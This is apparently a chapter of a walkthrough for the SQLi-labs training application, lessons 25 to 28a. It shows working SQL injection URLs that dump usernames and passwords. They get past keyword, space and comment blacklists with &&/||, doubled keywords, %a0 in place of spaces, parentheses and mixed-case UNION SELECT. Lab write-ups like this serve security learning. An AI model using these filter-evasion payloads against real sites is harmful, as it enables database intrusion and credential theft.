# Chapter-09

## Bypassing blacklist filters

This section will be about bypassing blacklist filters. 

### Lesson 25

In this challenge the ```AND``` and the ```OR``` keyword have been filtered. This means that we cannot use ```AND``` or ```OR``` to perform SQL injections. 

The workaround for this is to use logical ```AND``` and ```OR``` operators, i.e ```&&``` and ```||```. Logical operators will work fine for these challenges. 

We can get the username and password by running the following command - 

```sql 
/sqlilabs/Less-25/?id=0'union select 1, group_concat(passwoorrd), group_concat(username) from users --+
```

:warning: Since, the ```OR``` and ```AND``` are being removed from the query, ```oorr``` can be used for table and column names that contain ```OR``` and ```AND```. 

:boom: Also to make use of ```||``` and ```&&``` will have to be url encoded. 

### Lesson 25a

This challenge is a bit tricky, as might miss the obvious here. In this challenge ```AND``` and ```OR``` have been blacklisted. 

When we try to break the query here, we'll soon realise that it cannot be broken as the input is sent as is. There is no ```'``` or ```"``` enclosing the input. We can find this out by trying out the below mentioned test - 

```sql 
https://localhost//sqlilabs/Less-25a/?id=1 %26%26 1 --+

https://localhost//sqlilabs/Less-25a/?id=1 %26%26 0 --+
```
We can see the output when we ```AND``` the query with 1 and we are unable to see the query when we ```AND``` it with 0. 

Now, we can get the usernames and passwords by entering this in the url - 

```sql
https://localhost/sqlilabs/Less-25a/?id=-1 union select 1, group_concat(username), group_concat(passwoorrd) from users limit 0, 1 --+
```

:warning: The output for ```UNION SELECT``` can only be seen if the preceeding query is invalid. 

### Lesson 26

This challenge has even more restrictions. Here the following will be removed from the input - 

1.  ```AND```
1.  ```OR```
1.  Spaces and comments

However, there is a workaround for cases where spaces are removed from the input. MySql tends to accept certain non-printable values like ```%a0```, ```%b0``` in the place of spaces. Therefore, ```%a0```, ```%b0``` can be used instead of spaces.

Another workaround for space filtering is to use parenthesis. Parenthesis can also be used to escape space filtering. 

Here is an example which shows both the above mentioned hacks - 

```sql
union(select(1),(2),(3))

union %a0 select %a0 1,2,3 
```

Also, since comments are filtered, we will have balance the query using ```&&``` and ```||``` operators.

The url will look somewhat like this - 

```sql 
http://localhost/sqlilabs/Less-26/?id=0' union %a0 select %a0 1,2,3 %a0 %26%26 '1
```

:warning: ```%a0``` is not detected in the front-end because the user is checking for a valid space character but ```%a0``` is not a valid space character, hence it bypasses the check. MySql on the other hand excepts non-printable characters as space; therefore the query gets executed at the back-end.  

### Lesson 26a 

This challenge is exactly the same as lesson26 with the only difference being how the input is wrapped in the sql query. 

The url for this challenge looks somewhat like this - 

```sql
http://localhost/sqlilabs/Less-26a/?id=1') union %a0 select %a0 1,2,3 %a0 %26%26 ('1
```

Here's a funny thing about this challenge, when you try to check for the validity of ```1'``` with the ```&&``` operator, it will come out to be true. 

i.e. if you type the following in the url you will see the desired result (i.e. the website shows nothing when the boolean value is evaluated to false and the website shows some information when the boolean value is evaluated to true).

```
http://localhost/sqlilabs/Less-26a/?id=1' %26%26 '1
http://localhost/sqlilabs/Less-26a/?id=1' %26%26 '0


SELECT * FROM users WHERE id=('1999' union select 1, 2, 3 && '1') LIMIT 0,1; [Backend query]
```

and

```
http://localhost/sqlilabs/Less-26a/?id=1') %26%26 ('1
http://localhost/sqlilabs/Less-26a/?id=1') %26%26 ('0

SELECT * FROM users WHERE id=('199') union select 1, 2, 3 && ('0') LIMIT 0,1; [Backend query]
```

Both the above mentioned queries will show similar results for the above attack. But they will differ when ```union select``` statement is used. 

### Lesson 27 

Here, the ```union``` and ```select``` keywords are being filtered. Therefore, we cannot use ```union``` and ```select```. 

There are a few workaround for this - 

1.  Try to use ```union``` and ```select``` statement with a combination of upper and lowercase. If the developer has not taken the case of ```union``` and ```select``` statement into account, we can by-pass this filter.

1.  Using non-printable characters between ```union``` and ```select``` statement also works if the developer hasn't handled the case properly. 

:warning: Make sure that there is space between the ```AND``` or ```OR``` operator and its operands. 

The url for this challenge will look like this - 

```
http://localhost/sqlilabs/Less-27/?id=' %a0 uNion %a0 sElect %a0 1,2,3 %a0 or %a0 '1
```

:warning: Here the making use of mixed case (lower and upper case) for ```union select``` statement works well.

### Lesson 27a

This challenge is the same as above with the only difference being the input enclosing brace.  

```
http://localhost/sqlilabs/Less-27a/?id=" %a0 uNiOn %a0 sEleCt %a0 1,database(),3%a0 and  %a0 "1
```

### Lesson 28

Here the making use of a non printable character between ```union select``` statement allows us to bypass the blacklist filter.

```
http://localhost/sqlilabs/Less-28/?id=1999') %a0 union %a0 select %a0 1,2,3 %a0 or %a0 ('1
```

### Lesson 28a

This challenge is exactly  the same as the previous challenge. 

```
http://localhost/sqlilabs/Less-28a/?id=1000') %a0 uNiOn%a0sEleCt %a0 1, 1, 2 or ('0
```